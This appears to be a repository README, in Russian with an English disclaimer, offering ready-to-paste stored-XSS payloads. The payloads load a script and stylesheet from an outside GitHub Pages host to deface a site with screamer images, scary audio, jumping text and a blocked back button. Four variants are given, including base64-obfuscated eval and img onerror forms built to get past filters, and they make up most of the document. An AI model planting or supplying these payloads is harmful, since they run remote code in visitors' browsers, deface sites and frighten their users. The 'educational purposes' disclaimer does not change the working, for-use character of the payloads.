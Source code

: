 # XSS

Код сработает только при наличии уязвимости хранимый XSS + если сайт не будет блокировать загрузку внешних скриптов и стилей. <br>

* Страшная музыка.
* Постепенно изменяющийся цвет фона на красный.
* Прыгающий и мигающий текст.
* Нельзя вернуться на предыдущую страницу (зависит от браузера).
* Замена всех изображений на скример.
* Замена текста в тегах "p", "h1", "a".
* Замена всех тегов "a" на "p".
* Скример на весь экран с криком в течение какого-то времени.

⚠️ Important: This payload is for educational purposes only and for testing on your own or training systems. Use in real attacks violates laws and ethical standards. The author of the repository is not responsible for the use of this payload by third parties.

------------------------------------------

Полная версия (JS + CSS):

<script>var c=document.createElement('link');c.rel='stylesheet';c.href='//scullteam.github.io/XSS/styles.css';document.head.appendChild(c);var r=document.createElement('script');r.src='//scullteam.github.io/XSS/script.js';document.body.appendChild(r);</script>

#/

<script>eval(atob('PHNjcmlwdD52YXIgYz1kb2N1bWVudC5jcmVhdGVFbGVtZW50KCdsaW5rJyk7Yy5yZWw9J3N0eWxlc2hlZXQnO2MuaHJlZj0nLy9zY3VsbHRlYW0uZ2l0aHViLmlvL1hTUy9zdHlsZXMuY3NzJztkb2N1bWVudC5oZWFkLmFwcGVuZENoaWxkKGMpO3ZhciByPWRvY3VtZW50LmNyZWF0ZUVsZW1lbnQoJ3NjcmlwdCcpO3Iuc3JjPScvL3NjdWxsdGVhbS5naXRodWIuaW8vWFNTL3NjcmlwdC5qcyc7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChyKTs8L3NjcmlwdD4='))</script>

# ///

<img src="" alt="" onerror="var c=document.createElement('link');c.rel='stylesheet';c.href='//scullteam.github.io/XSS/styles.css';document.head.appendChild(c);var r=document.createElement('script');r.src='//scullteam.github.io/XSS/script.js';document.body.appendChild(r)">

#/

<img src="" onerror="eval(atob('PGltZyBzcmM9IiIgYWx0PSIiIG9uZXJyb3I9InZhciBjPWRvY3VtZW50LmNyZWF0ZUVsZW1lbnQoJ2xpbmsnKTtjLnJlbD0nc3R5bGVzaGVldCc7Yy5ocmVmPScvL3NjdWxsdGVhbS5naXRodWIuaW8vWFNTL3N0eWxlcy5jc3MnO2RvY3VtZW50LmhlYWQuYXBwZW5kQ2hpbGQoYyk7dmFyIHI9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgnc2NyaXB0Jyk7ci5zcmM9Jy8vc2N1bGx0ZWFtLmdpdGh1Yi5pby9YU1Mvc2NyaXB0LmpzJztkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKHIpIj4='))">